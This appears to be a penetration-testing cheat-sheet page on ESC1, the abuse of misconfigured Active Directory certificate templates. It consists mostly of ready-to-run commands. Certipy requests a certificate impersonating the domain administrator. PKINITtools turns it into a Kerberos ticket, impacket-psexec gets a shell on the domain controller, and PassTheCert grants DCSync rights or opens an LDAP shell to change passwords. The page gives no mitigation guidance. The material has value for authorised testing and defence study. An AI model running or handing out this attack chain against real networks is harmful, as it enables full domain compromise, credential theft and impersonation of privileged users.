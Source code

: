 # ESC1

**ESC1** is a vulnerability where **a low-privileged user** in a Windows domain can **abuse misconfigured certificate templates** to get a certificate that lets them **impersonate another user — even a domain admin**.

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Get the .pfx cert

{% code overflow="wrap" %}
```bash
#To specify a user account in the SAN
certipy req -ca 'ca_name' -dc-ip 'DC_IP' -u 'USER' -p 'PASS' -template 'ESC1' -target 'FQDN' -upn 'administrator@DOMAIN.local'

certipy req -u "USER@DOMAIN.local" -p 'PASS' -dc-ip 'DC_IP' -target "FQDN" -ca 'ca_name' -template 'vulnerable_template' -upn 'administrator@DOMAIN.local'
```
{% endcode %}

{% hint style="info" %}
The `$ADCS_HOST` target must be a FQDN (not an IP).
{% endhint %}

## Use pfx cert

### Pass-the-Ticket to auth

Once we have the .pfx file we can use the Pass-the-Ticket technique to get TGT and impersonate the domain admin user.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>git clone https://github.com/dirkjanm/PKINITtools
</strong>
<strong>
</strong><strong>python getttgtpkinit.py &#x3C;DOMAIN>/administrator -cert-pfx /PATH/TO/administrator.pfx PKINIT-Administrator.ccache
</strong>
export KRB5CCNAME=PKINIT-Administrator.ccache

impacket-psexec administrator@&#x3C;DC_IP> -k -no-pass

</code></pre>



### Pass-the-Cert to auth

Another alternative is with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py) (Python) which can be used to conduct multiple techniques like elevate a user for [dcsync.md](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or change password for a specific user.

{% code overflow="wrap" %}
```bash
# extract key and cert from the pfx
certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"
certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

# elevate a user for DCSYNC with passthecert.py
git clone https://github.com/AlmondOffSec/PassTheCert

passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate

# remote code execution
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain DOMAIN.local -dc-ip IP 
```
{% endcode %}

When we have a ldap-shell we can change a user passowrd using the `change_password` function.



## Resources

{% embed url="https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc1/#elementor-toc__heading-anchor-9" %}
